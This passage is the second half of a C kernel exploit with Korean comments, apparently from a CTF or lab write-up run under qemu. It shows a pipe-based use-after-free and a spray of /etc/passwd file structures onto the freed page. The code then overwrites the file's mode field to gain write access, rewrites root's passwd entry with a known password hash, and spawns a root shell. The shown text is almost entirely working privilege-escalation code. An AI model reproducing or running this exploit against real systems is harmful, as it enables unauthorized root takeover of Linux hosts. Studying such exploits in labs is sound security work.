 ```c
    // 6. 오염된(덮어쓴) 파이프를 탐색하여 중복 파이프(dup pipe)를 찾는다.
    size_t victim_idx = 0, prev_idx = 0, magic = 0;
    void *tmp_content = malloc(0x1000);
    for (int i = 0; i < PIPE_NUM; i++) {
        // hole이 아닌 파이프만 확인
        if (i % 0x10) {
            read(pipe_fd[i][0], tmp_content, 8);
            read(pipe_fd[i][0], &magic, 8);
            // 식별 문자열은 동일해야 하며, magic 값이 원래와 달라졌다면 오염된 것으로 판단
            if (magic != (0xdeadbeef + i) && (memcmp(tmp_content, "KEYME!!!", 8) == 0)) {
                victim_idx = magic - 0xdeadbeef;
                prev_idx = i;
                if (victim_idx >= PIPE_NUM)
                    errExit("Could not find corrupted (dup) pipe.");
                printf("[*] Found dup pipes: victim=%lu, prev=%lu\n", victim_idx, prev_idx);
                break;
            }
        }
    }
    if (victim_idx == 0 || prev_idx == 0)
        errExit("Could not find corrupted (dup) pipe.");

    // 7. prev_idx 파이프에 데이터를 써서, 오염된 영역(예: file 구조체의 mode 필드)을 조작
    write(pipe_fd[prev_idx][1], tmp_content, 0x14); // file->mode의 오프셋이 0x14이므로 0x14 바이트만큼 먼저 써서 다음번 쓰기에 file->mode에 쓸 수 있도록 함

    // 8. victim 파이프를 닫아 UAF 상태 유도
    printf("[*] Freeing victim pipe's page for UAF...\n");
    close(pipe_fd[victim_idx][0]);
    close(pipe_fd[victim_idx][1]);
    sleep(1);

    // 9. /etc/passwd 파일을 여러 번 열어, 해제된 페이지에 file 구조체가 재할당되도록 파일 스프레이
    printf("[*] Spraying /etc/passwd files...\n");
    for (int i = 0; i < FILE_NUM; i++) {
        file_fd[i] = open("/etc/passwd", 0);
        if (file_fd[i] < 0)
            errExit("Opening /etc/passwd failed");
    }

    // 10. prev_idx 파이프를 이용하여 passwd 파일 페이지를 덮어쓰도록 준비
    int mode = 0x480e801f; // 기본적으로 /etc/passwd 파일은 쓰기 권한 없이 열리므로 file->mode를 조작하여 쓰기 권한이 있도록 속임
    write(pipe_fd[prev_idx][1], &mode, 4);

    // 11. /etc/passwd를 덮어써서 root 계정의 비밀번호를 변경 (새 비밀번호: "root")
    char *data = "root:$1$root$9gr5KxwuEdiI80GtIzd.U0:0:0:test:/root:/bin/sh\n"; // openssl passwd -1 -salt root root
    printf("[*] Overwriting /etc/passwd root entry...\n");
    int data_size = strlen(data);
    for (int i = 0; i < FILE_NUM; i++) {
        int retval = write(file_fd[i], data, data_size);
        if (retval > 0) {
            printf("[+] /etc/passwd overwrite success: FD %d\n", i);
            system("id; cat /etc/passwd; sh"); // 반드시 sh 실행해야함. sh 실행안하면 kernel panic 뜨고 qemu 종료됨
        }
        //printf("%d\n", i);
    }

    printf("[!] Exploit Fail!\n");
    
    return 0;
}

```